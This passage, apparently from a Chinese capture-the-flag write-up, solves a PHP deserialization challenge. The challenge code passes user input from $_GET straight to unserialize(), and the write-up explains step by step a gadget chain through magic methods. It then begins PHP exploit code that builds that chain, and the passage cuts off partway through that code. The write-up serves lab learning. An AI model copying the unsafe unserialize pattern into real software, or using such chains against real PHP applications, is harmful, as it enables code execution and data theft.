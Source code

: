 ```PHP
                return "1";
        }
}
class GetFlag
{
        public function get_flag()
        {
                include"flag.php";
        }
}
$a = $_GET['string'];
unserialize($a);
?>
```

> 如何在一个类中实例化另一个类呢？利用类的构造函数，只要第一个类被实例化就会自动实例化我们需要另外构造的类。

**思路**：

1. 要想得到flag，需要调用GetFlag类中的get_flag()函数。
2. 在string1类可以看出，我们需要把str1实例化为GetFlag类的对象，然后看有没有字符串能调用__toString()函数。
3. 往上看，func类中，\_\_invoke()函数存在字符串拼接，满足2的预期，需要把mod2实例化为string1的对象，再找找有没有把对象当作函数的地方来调用\_\_invoke()。
4. 在funct类中找到调用$s1()函数，只需将mod1实例化为func类的对象，再找找有没有调用不存在函数的地方。
5. 芜湖,我们发现Call类中test1()函数就调用了不存在的函数，我们需要把mod1实例化为funct的对象。
6. 最后一步！往上看！在start\_\_gg的析构函数就调用了test1()函数，那我们只需要把mod1实例化为\__Call的对象就可以了！

最后构造！

```php
<?php
class start_gg
{
        public $mod1;
        public function __construct()
        {
            $this->mod1 = new Call();
        }
}
class Call
{
        public $mod1;
        public function __construct()
        {
            $this->mod1 = new funct();
        }
}
class funct
{
        public $mod1;
        public function __construct()
        {
            $this->mod1 = new func();
        }
}
class func
{
        public $mod1;
        public function __construct()
        {
            $this->mod1 = new string1();
        }
}
class string1
{
        public $str1;
```